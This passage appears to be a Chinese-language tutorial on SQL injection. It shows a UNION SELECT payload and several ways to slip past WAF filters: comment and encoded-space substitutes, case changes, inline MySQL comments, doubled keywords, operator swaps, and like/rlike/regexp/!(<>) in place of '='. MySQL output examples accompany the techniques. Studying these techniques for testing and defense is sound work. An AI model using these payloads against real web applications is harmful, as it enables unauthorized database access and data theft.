 ```
如果要用select查询，则注入语句'union select 1,2,3'
SELECT * FROM users WHERE id='$id' union select 1,2,3'' LIMIT 0,1

则不用前后加and或者or，为什么会这样呢？
因为select后的查询语句可以接''来表示命名，命名可以为空，也可以为任何名字，所以可以注入 'union select 1,2,3'123niubi666，都是可以的
```

**过滤空格绕过**：`/**/` ，`%20` ，`%0a` ，`%09` ，`%0c` ,`%a0`,`%0d`,`括号`，`+`

**过滤大小写绕过**：比如`select`被过滤了，可以用`SElect`，`Select`

**内联注释绕过**：内联注释就是把一些特有的仅在MYSQL上的语句放在 `/*!...*/` 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行

**双写绕过**：比如`select`变成`seleselectct`，在经过`waf`的处理之后又变成`select`，达到绕过的要求，更可以三写，或者多写

**过滤 `and` `or` `xor` `not`绕过**：`and` = `&&` , `or` = `||` , `xor` = `|` , `not` = `!`

**过滤=（等于号）绕过**：

- 不加`通配符`的`like`执行的效果和`=`一致，所以可以用来绕过。

> 正常加上通配符的`like`：

```sql
mysql> select * from users where username like "test%";
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  3 | test3    | pass1    |
+----+----------+----------+
```

> 不加上通配符的`like`可以用来取代`=`：

```sql
mysql> select * from users where id like 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
```

- rlike:模糊匹配，只要字段的值中存在要查找的 部分 就会被选择出来
  用来取代`=`时，`rlike`的用法和上面的`like`一样，没有通配符效果和`=`一样

- regexp:MySQL中使用 **REGEXP** 操作符来进行正则表达式匹配

- <> 等价于 !=
  所以在前面再加一个`!`结果就是等号了

```sql
mysql> select * from users where id = 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+


mysql> select * from users where !(id <> 1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
```
